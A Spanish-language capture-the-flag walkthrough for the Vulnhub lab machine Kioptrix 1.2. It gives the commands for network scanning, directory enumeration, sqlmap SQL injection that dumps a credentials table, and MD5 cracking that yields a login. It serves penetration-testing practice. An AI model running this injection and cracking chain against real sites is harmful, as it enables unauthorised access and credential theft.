 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=390&height=80&lines=KIOPTRIX_1.2"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con Arp-Scan. 
```
arp-scan --interface wlan0 -l
```
![1](https://user-images.githubusercontent.com/75953873/177891939-07f2e077-4b7a-4f04-9e6f-80c2e43d1a13.png)

IP host: `192.168.1.4`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.4
```
![2](https://user-images.githubusercontent.com/75953873/177892039-39832af6-5bbd-4ba1-9581-85abf27bffa0.png)

Puertos abiertos: [22,80]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 22,80 -A 192.168.1.4
```
![3](https://user-images.githubusercontent.com/75953873/177892640-8cd728ec-bbdd-4f6c-a2ec-2d1a55a17fa4.png)

Servidor corriendo: **HTTP Apache**

O.S: **Linux**

Modificar registro de DNS:
```
sudo nano /etc/hosts
192.168.1.4     kioptrix3.com
```
![5](https://user-images.githubusercontent.com/75953873/177894609-f8736c6f-88f5-4589-8537-b830f3aea646.png)

URL: `kioptrix3.com`

![4](https://user-images.githubusercontent.com/75953873/177894662-86f2e2d9-11d0-4e68-9d8b-eea8d94020b3.png)
 
- *Paso 4:* Enumerar directorios con Dirb. 
```
dirb http://kioptrix3.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![8](https://user-images.githubusercontent.com/75953873/177896088-d5bd5588-f32e-4391-ba4c-b3eb77cd2cfa.png)

```
dirb http://kioptrix3.com/gallery -X .php
```
![9](https://user-images.githubusercontent.com/75953873/177896489-33c3d635-4b79-4885-959f-ee23c9f644ee.png)

URL: `http://kioptrix3.com/gallery/gallery.php?id=1'`

![10](https://user-images.githubusercontent.com/75953873/177896633-3865f18f-a058-4598-a58b-a8172b935124.png)

- *Paso 4:* Inyección SQL con Sqlmap.
```
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --dbs --batch
```
![11](https://user-images.githubusercontent.com/75953873/177897124-cea5badf-f09c-4cfa-beec-997462e2655c.png)

Enumerar base de datos `gallery`:
```
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -D gallery --dump --batch
```
![12](https://user-images.githubusercontent.com/75953873/177897559-e09a4acd-cad1-4bed-8435-5ba220183ab2.png)

Imprimir tablas `dev_accounts`:
```
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -D gallery -T dev_accounts --dump --batch
```
![13](https://user-images.githubusercontent.com/75953873/177898181-fd42d4ba-e68a-4e0e-9257-b82883f0c1e8.png)

- *Paso 5:* Identificar hash y crackearlo.
```
hash-identifier
```
![15](https://user-images.githubusercontent.com/75953873/177899147-49dace0d-0eac-4835-8f1a-0e86660302c9.png)

Tipo de hash: **MD5**

Crackearlo con hashCRACK:

Herramienta: https://github.com/R3LI4NT/hashCrack
```
python3 hashcrack.py --md5 5badcaf789d3d1d09794d8f021f40f0e -w /usr/share/wordlists/rockyou.txt
```
![14](https://user-images.githubusercontent.com/75953873/177899361-55ca89ae-2c96-4ac8-a1df-2a2680b3f125.png)

Usuario: `loneferret`

Contraseña: `starwars`
